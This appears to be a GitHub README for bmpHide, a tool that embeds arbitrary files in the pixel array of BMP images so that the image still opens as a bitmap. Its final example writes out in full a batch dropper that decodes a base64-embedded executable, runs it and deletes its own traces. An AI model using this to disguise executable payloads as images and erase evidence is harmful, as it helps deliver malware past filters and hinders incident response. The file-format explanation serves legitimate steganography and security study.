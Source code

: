 bmpHide
==========

  *This tool is inspired by the [Break into shell from MsPaint](http://hak5.org/episodes/hak5-925) trick.*

All bitmap images have a pixel array, which defines colour values for all the image pixels. This application takes advantage of this and embeds files within this pixel array of 24-bit BMP images. Although multiple versions of the BMP file format exist, they are well documented. 

Very useful facts about the way BMP bitmap files store the colours of the pixels:

 - The pixel array must begin at a memory address that is a multiple of 4 bytes.
 - The pixel array is padded to a multiple of 4 bytes in size.
 - Pixels are stored “upside-down” with respect to normal image raster scan order, starting in the lower left corner, going from left to right, and then row by row from the bottom to the top of the image.

**bmpHide** will convert the input file into an array of pixel RGB colours. The minimum necessary size of the output BMP file is determined automatically.

 

Usage Scenarios
---------------

Because a lot of applications are somewhat tolerant of any garbage data present at the beginning of their supported files, we can actually *paint* different other file types: archives, PDF documents, Office documents and fully functional batch scripts.

**Hide regular text files**

    $ python convert.py samples/test1.txt out.bmp
    [*] Reading text from samples/test1.txt
    [*] Need a 8x8 BMP
    [+] Writting BMP to out.bmp
    $ file out.bmp 
    out.bmp: PC bitmap, Windows 3.x format, 8 x 8 x 24
    $ cat out.bmp 
    BM
    
    The quick brown fox jumps over the lazy dog.
    Fox dwarves chop my talking quiz job

**Embed a simple batch file**

    $ python convert.py samples/test2.bat out.bmp
    [*] Reading text from samples/test2.bat
    [*] Need a 4x4 BMP
    [+] Writting BMP to out.bmp
    $ cat out.bmp 
    BMf6(0
    
    cmd.exe

**Embed archives**

    $ python convert.py samples/test3.zip out.bmp
    [*] Reading text from samples/test3.zip
    [*] Need a 12x12 BMP
    [+] Writting BMP to out.bmp
    $ file out.bmp 
    out.bmp: PC bitmap, Windows 3.x format, 12 x 12 x 24
    $ unzip -l out.bmp
    Archive:  out.bmp
    warning [out.bmp]:  58 extra bytes at beginning or within zipfile
      (attempting to process anyway)
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            8  2014-09-20 20:17   test2.txt
    ---------                     -------
            8                     1 file

**PDF documents**

    $ python convert.py samples/test4.pdf out.bmp 
    [*] Reading text from samples/test4.pdf
    [*] Need a 20x20 BMP
    [+] Writting BMP to out.bmp
    $ file out.bmp 
    out.bmp: PC bitmap, Windows 3.x format, 20 x 20 x 24
    $ xpdf out.bmp

**Hide Office XML-based documents**

    $ python convert.py samples/test5.docx out.bmp 
    [*] Reading text from samples/test5.docx
    [*] Need a 44x44 BMP
    [+] Writting BMP to out.bmp

**Complex batch scripts**

We can embed inside a BMP a complex batch script which *dumps a base64 encoded binary, decodes it, launches the executable and deletes all the traces* when the process terminates:

    $ python createBat.py 
    Create a batch file (.BAT) that dumps and runs an exe.
    Usage: createBat.py <exe>
    $ python createBat.py samples/calc.exe 
    $ ls -al wrapper.bat 
    -rw-rw-r-- 1 ci ci 192829 Sep 22 21:21 wrapper.bat
    $ python convert.py wrapper.bat out.bmp 
    [*] Reading text from wrapper.bat
    [*] Need a 256x256 BMP
    [+] Writting BMP to out.bmp
    $ cat out.bmp 
    BM66(
    
    @echo off
    echo ' Decode and dump a base64 encoded file >> run.vbs
    echo ' Usage: cscript decode.vbs [inFile] [outFile] >> run.vbs
    echo ' E.g.: cscript decode.vbs binary.txt binary.out >> run.vbs
    echo Dim inFile, outFile >> run.vbs
    echo inFile = WScript.Arguments(0) >> run.vbs
    echo outFile = WScript.Arguments(1) >> run.vbs
    echo Dim objFS, objTS >> run.vbs
    echo Set objFS = CreateObject("Scripting.FileSystemObject") >> run.vbs
    echo Set objTS = objFS.OpenTextFile(inFile, 1) >> run.vbs
    echo Dim base64Encoded, base64Decoded >> run.vbs
    echo base64Encoded = objTS.ReadAll >> run.vbs
    echo base64Decoded = decodeBase64(base64Encoded) >> run.vbs
    echo writeBytes outFile, base64Decoded >> run.vbs
    echo Private Function decodeBase64(base64) >> run.vbs
    echo Dim DM, EL >> run.vbs
    echo Set DM = CreateObject("Microsoft.XMLDOM") >> run.vbs
    echo ' Create temporary node with Base64 data type >> run.vbs
    echo Set EL = DM.createElement("tmp") >> run.vbs
    echo EL.DataType = "bin.base64" >> run.vbs
    echo ' Set encoded String, get bytes >> run.vbs
    echo EL.Text = base64 >> run.vbs
    echo decodeBase64 = EL.NodeTypedValue >> run.vbs
    echo End Function >> run.vbs
    echo Private Sub writeBytes(file, bytes) >> run.vbs
    echo Dim binaryStream >> run.vbs
    echo Set binaryStream = CreateObject("ADODB.Stream") >> run.vbs
    echo binaryStream.Type = 1	' adTypeBinary >> run.vbs
    echo 'Open the stream and write binary data >> run.vbs
    echo binaryStream.Open >> run.vbs
    echo binaryStream.Write bytes >> run.vbs
    echo binaryStream.SaveToFile file, 2  ' adSaveCreateOverWrite >> run.vbs
    echo End Sub >> run.vbs
    echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> binary.txt
    echo 8AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0K >> binary.txt
    
    ........
    echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA== >> binary.txt
    run.vbs binary.txt binary.exe
    binary.exe
    del run.vbs
    del binary.exe
    del binary.txt
    del wrapper.bat

In this last case, the generated image looks like this:

![](http://cyberinc.co.uk/wp-content/uploads/2014/09/out.png)
Project content
---------------

**convert.py** - Store any file inside the pixel array of a 24-bit bitmap image (BMP).

    $ python convert.py [in-file] [out-file]

**decode.vbs** - VB helper script to decode and dump a base64 encoded file. Called from a BAT file, as there is no native base64 decoding functionality in .bat files without VBS.

    Base64 encode a binary:
    $ cat binary | base64 -w 0 > binary.txt
    Decode:
    > cscript decode.vbs binary.txt binary.out

**createBat.py** - Create a batch file (.BAT) that dumps and runs an exe. Cleans any trace afterwards.

    $ python createBat.py [exe]

References
----------

 - [Embedding files within bitmap images](http://cyberinc.co.uk/embedding-files-within-bitmap-images/)
 - [BMP File Format](http://en.wikipedia.org/wiki/BMP_file_format)
 - [Break into shell with MsPaint](http://hak5.org/episodes/hak5-925)

